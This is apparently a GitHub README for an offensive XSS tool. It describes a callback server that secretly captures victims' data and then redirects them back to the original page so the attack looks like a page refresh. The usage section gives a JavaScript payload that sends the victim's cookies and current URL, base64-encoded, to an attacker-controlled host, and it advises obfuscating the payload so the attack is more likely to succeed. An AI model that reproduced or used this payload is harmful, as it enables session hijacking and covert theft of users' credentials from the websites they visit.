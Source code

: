 ## Description

This repo contains an example of a CORS callback server and an XSS payload that, once executed, will change the current window location of the victim to your callback address, which returns a **301 Moved Permanently** response sending the victim back to its referer, although this time with a token in the URL anchor, preventing the XSS payload from reactivating.

This enables you to sniff sensitive data via URL parameters when the victim is sent to your callback address.

If the victim did not send a Referer header, you can include the referer address in a URL parameter. If no referer is provided, the victim will be redirected to a panic address of your choice, in an attempt to keep the attack hidden.

**When the attack is successful, the victim experienced what seemed like a page refresh at most.**

## Usage

Use the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the more likely your attack will succeed. 

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
  "?referer=" + encodeURIComponent( btoa(self.location.href) ) + 
  "&data=" + encodeURIComponent( btoa(document.cookie) ) + 
  "&token=" + encodeURIComponent( btoa(token) );
```

<sup>If you choose not to include a referer in the URL parameters, the callback server defaults to the **`Referer`** header of the request.<br>If neither a referer parameter or Referer header is present, the victim is redirected to the panic address.</sup>
